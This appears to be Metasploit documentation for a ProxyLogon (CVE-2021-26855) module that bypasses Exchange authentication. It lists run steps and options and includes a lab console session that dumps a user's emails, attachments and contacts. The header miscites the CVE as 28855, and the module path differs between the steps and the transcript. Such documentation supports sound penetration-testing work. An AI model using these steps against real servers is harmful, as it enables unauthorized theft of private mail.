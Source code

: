 ## Vulnerable Application

CVE-2021-28855 is a pre-authentication SSRF (Server Side Request Forgery) which allows an attacker to
bypass authentication by sending specially crafted HTTP requests. This vulnerability is part of an attack
chain used to perform an RCE (Remote Code Execution).

This vulnerability affects (Exchange 2013 Versions < 15.00.1497.012, Exchange 2016 CU18 < 15.01.2106.013,
Exchange 2016 CU19 < 15.01.2176.009, Exchange 2019 CU7 < 15.02.0721.013, Exchange 2019 CU8 < 15.02.0792.010).

### Introduction

This module exploit a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the
authentication and impersonating as the admin (CVE-2021-26855).

By taking advantage of this vulnerability, it is possible to dump all mailboxes (emails, attachments,
contacts, ...).

All components are vulnerable by default.

## Verification Steps

1. Start msfconsole
2. Do: `use auxiliary/gather/exchange_proxylogon`
3. Do: `set RHOSTS [IP]`
4. Do: `set EMAIL [EMAIL ADDRESS]`
5. Do: `run`

## Options

### ATTACHMENTS

Dump documents attached to an email. Default: true

### EMAIL

The email account what you want dump.

### FOLDER

The email folder what you want dump. Default: inbox

It is also possible to use other attributes such as: drafts, sentitems, ...

More info about this in the references.

### METHOD

HTTP Method to use for the check (only). Default: POST

### TARGET

Force the name of the internal Exchange server targeted.

## Advanced Options

### MaxEntries

Override the maximum number of object to dump.

## Auxiliary Actions

### Dump (Contacts)

Dump user contacts from exchange server.

### Dump (Emails)

Dump user emails from exchange server.

## Scenarios

```
msf6 auxiliary(gather/exchange_proxylogon_collector) > options 

Module options (auxiliary/gather/exchange_proxylogon_collector):

   Name         Current Setting           Required  Description
   ----         ---------------           --------  -----------
   ATTACHMENTS  true                      yes       Dump documents attached to an email
   EMAIL        gaston.lagaffe@pwned.lab  yes       The email account what you want dump
   FOLDER       inbox                     yes       The email folder what you want dump
   METHOD       POST                      yes       HTTP Method to use for the check (only). (Accepted: GET, POST)
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       172.20.2.110              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        443                       yes       The target port (TCP)
   SSL          true                      no        Negotiate SSL/TLS for outgoing connections
   TARGET                                 no        Force the name of the internal Exchange server targeted
   VHOST                                  no        HTTP server virtual host


Auxiliary action:

   Name           Description
   ----           -----------
   Dump (Emails)  Dump user emails from exchange server


msf6 auxiliary(gather/exchange_proxylogon_collector) > run
[*] Running module against 172.20.2.110

[*] https://172.20.2.110:443 - Attempt to exploit for CVE-2021-26855
[*]  * internal server name (EXCH2K16)
[*] https://172.20.2.110:443 - Sending autodiscover request
[*]  * Server: d8a7cc8c-7180-4b80-b53e-57c3449bcd4e@pwned.lab
[*]  * LegacyDN: /o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=9b9d8cf634f44ec4a0eda5c1c7c311da-Gasto
[*] https://172.20.2.110:443 - Sending mapi request
[*]  * sid: S-1-5-21-3756917241-677735496-3570881102-1141 (gaston.lagaffe@pwned.lab)
[*] https://172.20.2.110:443 - Selecting the first internal server found
[*]  * targeting internal: server2
[*] https://172.20.2.110:443 - Attempt to dump emails for <gaston.lagaffe@pwned.lab>
[*]  * successfuly connected to: inbox
[*]  * selected folder: inbox (AQAYAGdhc3Rvbi5sYWdhZmYAZUBwd25lZC5sYWIALgAAA+uQmQIqiSJLiXyYWVYT65MBACRuvwACXEpAuhG13iUjVgwAAAIBDAAAAA==)
[*]  * number of email found: 4
[*] https://172.20.2.110:443 - Processing dump of 4 items
[*]  * download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAA6ItL
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_455715.txt
[*]    -> attachment: AAAYAGdhc3Rvbi5sYWdhZmZlQHB3bmVkLmxhYgBGAAAAAADrkJkCKokiS4l8mFlWE+uTBwAkbr8AAlxKQLoRtd4lI1YMAAAAAAEMAAAkbr8AAlxKQLoRtd4lI1YMAAAA6IA6AAABEgAQAFejlEQ+wzFDoBLnyMUbSk4= (Messagerie - Administrator - Outlook.pdf)
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_392827.pdf
[*]    -> attachment: AAAYAGdhc3Rvbi5sYWdhZmZlQHB3bmVkLmxhYgBGAAAAAADrkJkCKokiS4l8mFlWE+uTBwAkbr8AAlxKQLoRtd4lI1YMAAAAAAEMAAAkbr8AAlxKQLoRtd4lI1YMAAAA6IA6AAABEgAQAAZVIXO5iaNNtJIokpS4aB4= (03.png)
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_187857.png
[*] 
[*]  * download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAA6ItK
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_470603.txt
[*] 
[*]  * download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAAAAEc
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_296938.txt
[*] 
[*]  * download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAAAAEX
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_524052.txt
[*] 
[*] Auxiliary module execution completed
msf6 auxiliary(gather/exchange_proxylogon_collector) > set action Dump\ (Contacts) 
action => Dump (Contacts)
msf6 auxiliary(gather/exchange_proxylogon_collector) > run
[*] Running module against 172.20.2.110

[*] https://172.20.2.110:443 - Attempt to exploit for CVE-2021-26855
[*]  * internal server name (EXCH2K16)
[*] https://172.20.2.110:443 - Sending autodiscover request
[*]  * Server: d8a7cc8c-7180-4b80-b53e-57c3449bcd4e@pwned.lab
[*]  * LegacyDN: /o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=9b9d8cf634f44ec4a0eda5c1c7c311da-Gasto
[*] https://172.20.2.110:443 - Sending mapi request
[*]  * sid: S-1-5-21-3756917241-677735496-3570881102-1141 (gaston.lagaffe@pwned.lab)
[*] https://172.20.2.110:443 - Selecting the first internal server found
[*]  * targeting internal: server2
[*] https://172.20.2.110:443 - Attempt to dump contacts for <gaston.lagaffe@pwned.lab>
[*]  * successfuly connected to: contacts
[*]  * selected folder: contacts (AQAYAGdhc3Rvbi5sYWdhZmYAZUBwd25lZC5sYWIALgAAA+uQmQIqiSJLiXyYWVYT65MBACRuvwACXEpAuhG13iUjVgwAAAIBDgAAAA==)
[*]  * number of contact found: 1
[*] https://172.20.2.110:443 - Processing dump of 1 items
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120243_default_172.20.2.110_gaston.lagaffep_160567.txt
[*] Auxiliary module execution completed
msf6 auxiliary(gather/exchange_proxylogon_collector) > 
```

## References

1. <https://proxylogon.com/>
2. <https://docs.microsoft.com/en-us/exchange/client-developer/web-service-reference/distinguishedfolderid>
